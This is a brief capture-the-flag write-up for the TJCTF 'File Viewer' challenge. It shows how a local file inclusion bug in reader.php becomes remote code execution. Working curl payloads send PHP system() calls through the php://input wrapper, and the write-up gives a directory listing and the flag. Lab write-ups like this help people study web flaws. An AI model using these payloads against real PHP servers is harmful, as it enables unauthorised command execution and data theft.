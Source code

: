 # File Viewer

Basic LFI Vuln
curl -XPOST 'https://file_viewer.tjctf.org/reader.php?file=php://input' -d '<?php system("whoami"); ?>' - www-data
ls -la:  
```
-r--r--r-- 1 root     root       44 May 18 15:32 apple.txt
-r--r--r-- 1 root     root       74 May 24 15:12 grape.txt
dr-xr-xr-x 1 root     root     4096 May 24 15:12 i_wonder_whats_in_here
-r--r--r-- 1 root     root     3012 May 18 15:32 index.html
-r--r--r-- 1 root     root       27 May 18 15:32 orange.txt
-r--r--r-- 1 root     root       49 May 18 15:32 pear.txt
-r--r--r-- 1 root     root       27 May 18 15:32 pinneaple.txt
-r--r--r-- 1 root     root     2532 May 18 15:32 reader.php
-r--r--r-- 1 root     root       22 May 18 15:32 watermelon.txt
```
```php
curl -XPOST 'https://file_viewer.tjctf.org/reader.php?file=php://input' -d '<?php system("cat i_wonder_whats_in_here/* "); ?>'
```
#### tjctf{n1c3_j0b_with_lf1_2_rc3}
